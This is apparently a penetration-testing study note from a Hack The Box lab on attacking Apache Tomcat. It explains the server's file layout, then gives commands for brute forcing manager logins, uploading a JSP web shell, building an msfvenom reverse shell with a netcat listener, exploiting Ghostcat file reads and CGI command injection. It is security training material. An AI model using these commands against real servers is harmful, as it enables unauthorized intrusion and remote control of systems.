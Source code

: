 
**Manager**:`/manager`

```jsx
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```

The `bin` folder stores scripts and binaries needed to start and run a Tomcat server. The `conf` folder stores various configuration files used by Tomcat. The `tomcat-users.xml` file stores user credentials and their assigned roles. The `lib` folder holds the various JAR files needed for the correct functioning of Tomcat. The `logs` and `temp` folders store temporary log files. The `webapps` folder is the default webroot of Tomcat and hosts all the applications. The `work` folder acts as a cache and is used to store data during runtime.

Each folder inside `webapps` is expected to have the following structure.

```
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class

```

The most important file among these is `WEB-INF/web.xml`

```
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>
```

All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

The `tomcat-users.xml` file is used to allow or disallow access to the `/manager` and `host-manager` admin pages.

The file shows us what each of the roles `manager-gui`, `manager-script`, `manager-jmx`, and `manager-status` provide access to.

### Enumeration

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat`

**Directory Busting**

`L3pr3ch4un@htb[/htb]$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`

**Login Brute forcing**

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

`Wordlists`

- User: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
- Pass: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

**Code Execution**

Shell:`https://github.com/SecurityRiskAdvisors/cmd.jsp`

![](https://academy.hackthebox.com/storage/modules/113/vt2.png)

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backdoor.war cmd.jsp 
```

This file is uploaded to the manager GUI, after which the `/backdoor` application will be added to the table.

`[!bash!]$ curl http://web01.inlanefreight.local:8180/backup/backdoor.jsp?cmd=id`

**Reverse Shell**

```
[!bash!]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backdoor.war
```

Listner: `nc -lnvp 4443`

**Automation**

`exploit/multi/http/tomcat_mgr_upload/`

### Vulnerabilities

**CVE-2020-1938 : Ghostcat**

- Versions before 9.0.31, 8.5.51, and 7.0.100
- https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
- `[!bash!]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml`

**Tomcat CGI**

**CVE-2019-0232** is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the enableCmdLineArguments feature enabled. An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system. Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.

**Note**: This option should be enabled `enableCmdLineArguments`

`http://example.com/cgi-bin/hello.bat?&dir`

```
L3pr3ch4un@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
L3pr3ch4un@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```








